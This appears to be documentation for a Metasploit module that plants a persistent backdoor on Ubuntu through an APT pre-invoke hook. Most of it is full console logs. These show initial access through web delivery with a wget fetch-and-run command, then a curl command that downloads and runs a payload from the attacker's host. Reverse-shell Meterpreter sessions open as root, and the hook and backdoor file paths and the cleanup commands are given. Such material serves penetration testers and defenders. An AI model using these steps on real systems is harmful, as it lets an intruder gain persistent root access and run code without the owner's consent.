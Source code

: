 ## Vulnerable Application

This module will run a payload when the apt package manager is used.
This module creates a pre-invoke hook for APT in `apt.conf.d`.
The hook name syntax is numeric followed by text.

Verified on Ubuntu 22.04

## Verification Steps

1. Exploit a box that uses APT
2. Obtain root persmissions, or enough permissions to edit the `apt.conf.d` folder
3. `use exploit/linux/persistence/apt_package_manager`
4. `set SESSION <id>`
5. `set PAYLOAD cmd/unix/reverse_python` configure the payload as needed
6. `exploit`

When the system runs `apt-get update` the payload will launch.

## Options

**BACKDOOR_NAME**

Name of backdoor executable. Defaults to a random name

**HOOKNAME**

Name of pre-invoke hook to be installed in `/etc/apt/apt.conf.d/`. Pre-invoke hook name syntax is numeric followed by text.

**WritableDir**

Writable directory for backdoor. Default is (`/tmp/`)

## Scenarios

### Tested on Ubuntu 22.04

Initial access vector via web delivery

```
$ ./msfconsole -q
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO Z73D1DUW --no-check-certificate http://111.111.1.111:8181/l; chmod +x Z73D1DUW; ./Z73D1DUW& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] 222.222.2.22     web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.22:51076) at 2025-02-04 17:40:52 -0500
sessions -l

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         meterpreter x64/linux  root @ 222.222.2.22  111.111.1.111:4545 -> 222.222.2.22:51076 (222.222.2.22)
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/apt_package_manager 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/apt_package_manager) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/apt_package_manager) > check
[*] The target appears to be vulnerable. /etc/apt/apt.conf.d/ and /tmp/ are writable, also found apt-get.
[msf](Jobs:1 Agents:1) exploit(linux/persistence/apt_package_manager) > exploit
[*] Command to run on remote host: curl -so ./xTOLdQoOTv http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./xTOLdQoOTv;./xTOLdQoOTv&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/apt_package_manager) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /etc/apt/apt.conf.d/ and /tmp/ are writable, also found apt-get.
[*] Attempting to write hook:
[*] Wrote /etc/apt/apt.conf.d/76skoGqswo
[*] Backdoor uploaded /tmp/erNOJV96u
[+] Backdoor will run on next APT update
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc

[msf](Jobs:2 Agents:1) exploit(linux/persistence/apt_package_manager) > jobs

Jobs
====

  Id  Name                                            Payload                                     Payload opts
  --  ----                                            -------                                     ------------
  0   Exploit: multi/script/web_delivery              linux/x64/meterpreter/reverse_tcp           tcp://111.111.1.111:4545
  1   Exploit: linux/persistence/apt_package_manager  cmd/linux/http/x64/meterpreter/reverse_tcp  tcp://111.111.1.111:4444

[msf](Jobs:2 Agents:1) exploit(linux/persistence/apt_package_manager) > 
```

Run `sudo apt-get update` on the target.

```
[*] Client 222.222.2.22 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 222.222.2.22 (curl/7.81.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.22:49804) at 2025-02-04 17:43:06 -0500

[msf](Jobs:2 Agents:2) exploit(linux/persistence/apt_package_manager) > sessions -i 2
[*] Starting interaction with 2...

(Meterpreter 2)(/tmp) > sysinfo
Computer     : 222.222.2.22
OS           : Ubuntu 22.04 (Linux 5.15.0-48-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 2)(/tmp) > 
```

#### Cleanup

```
(Meterpreter 2)(/tmp) > resource /root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc
[*] Processing /root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc for ERB directives.
resource (/root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc)> rm /etc/apt/apt.conf.d/76skoGqswo
resource (/root/.msf4/logs/persistence/222.222.2.22_20250204.4245/222.222.2.22_20250204.4245.rc)> rm /tmp/erNOJV96u
```